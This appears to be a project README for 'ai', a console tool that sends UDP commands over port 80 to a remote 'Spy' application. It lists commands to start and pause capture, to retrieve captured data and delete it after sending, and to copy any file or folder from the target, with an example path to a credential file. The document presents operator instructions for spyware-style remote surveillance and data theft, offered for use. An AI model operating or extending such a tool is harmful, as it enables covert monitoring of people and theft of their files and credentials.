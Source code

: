 # ai
ai is developed for udp message communication and reformatted to control Spy application.
Program was tested on Windows 10 and was written in Visual Studio 17.

### More about application
Application might be used as console with arguments.
syntax: ai send xx.xx.xx.xx:80 message_type
Spy is using 80 port. replace ip address what you want to control.
##### Message Type
1 - start capture
2 - pause capture
3 - copy captured data, delete after send, continue capture
4 - copy captured data, delete after send, pause capture
path - copy any data in path followed argument.(e.g. `ai send 192.168.1.58:80 d:\foldername`)
**important note: I couldn't test with folder which its name contain space like "dev tools" or "windows 10".
if you give space, the word followed space will be set as next argument. if you need to copy even folder with space in its name, contact me.**

### How to use this application
open cmd or powershell. give command to run this app with arguments.
app_name send xx.xx.xx.xx:port message_type
resume capture: `ai send 192.168.1.58:80 1`
pause capture: `ai send 192.168.1.58:80 2`
copy and resume: `ai send 192.168.1.58:80 3`
copy and pause: `ai send 192.168.1.58:80 4`
copy any path: `ai send 192.168.1.58:80 d:\credential\userpw` `ai send 192.168.1.58:80 d:\study\english\unit1.mp3`
You can copy both folder and file.
Don't use backslash(`\`) at the end of path. Spy adds backslash itself if it's a folder.(Spy.cpp #535)

### Appendix
Check Readme in Spy project to learn how to install spy app.